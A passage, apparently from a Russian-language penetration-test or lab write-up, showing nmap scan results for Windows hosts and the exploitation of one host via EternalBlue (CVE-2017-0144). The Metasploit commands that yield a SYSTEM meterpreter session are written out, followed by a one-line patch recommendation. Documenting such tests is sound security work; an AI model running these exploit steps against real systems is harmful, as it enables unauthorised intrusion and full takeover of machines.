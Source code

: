 ```
 135/tcp   open  msrpc         Microsoft Windows RPC
 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
 445/tcp   open  microsoft-ds?
 3389/tcp  open  ms-wbt-server Microsoft Terminal Services
 5040/tcp  open  unknown
 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 49664/tcp open  msrpc         Microsoft Windows RPC
 49665/tcp open  msrpc         Microsoft Windows RPC
 49666/tcp open  msrpc         Microsoft Windows RPC
 49670/tcp open  msrpc         Microsoft Windows RPC
 49671/tcp open  msrpc         Microsoft Windows RPC
 49701/tcp open  msrpc         Microsoft Windows RPC
 49705/tcp open  msrpc         Microsoft Windows RPC
 49708/tcp open  msrpc         Microsoft Windows RPC
10.20.4.13
 135/tcp   open  msrpc         Microsoft Windows RPC
 139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
 445/tcp   open  microsoft-ds?
 3389/tcp  open  ms-wbt-server Microsoft Terminal Services
 5040/tcp  open  unknown
 5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
 49664/tcp open  msrpc         Microsoft Windows RPC
 49665/tcp open  msrpc         Microsoft Windows RPC
 49666/tcp open  msrpc         Microsoft Windows RPC
 49670/tcp open  msrpc         Microsoft Windows RPC
 49671/tcp open  msrpc         Microsoft Windows RPC
 49701/tcp open  msrpc         Microsoft Windows RPC
 49703/tcp open  msrpc         Microsoft Windows RPC
 49707/tcp open  msrpc         Microsoft Windows RPC
```
### 10.20.4.8
Этот хост имеет уязвимость в Windows-реализации протокола SMB (**CVE-2017-0144**), поэтому мы можем успешно использовать эксплоит под кодовым именем **Eternalblue**.

Получаем **user** доступ.
На машине с Kali Linux выполним последовательность команд:

**msfconsole** - запуск Metasploit Framework
**use exploit/windows/smb/ms17_010_eternalblue** - выбираем эксплоит
**set RHOSTS хост1** - устанавливаем хост1 как цель для атаки
**run** - запускаем эксплоит

После удачной эксплуатации уязвимости мы получаем сессию meterpreter с NT AUTHORITY\SYSTEM

**Patch**
1. Установка последних обновлений на windows

---
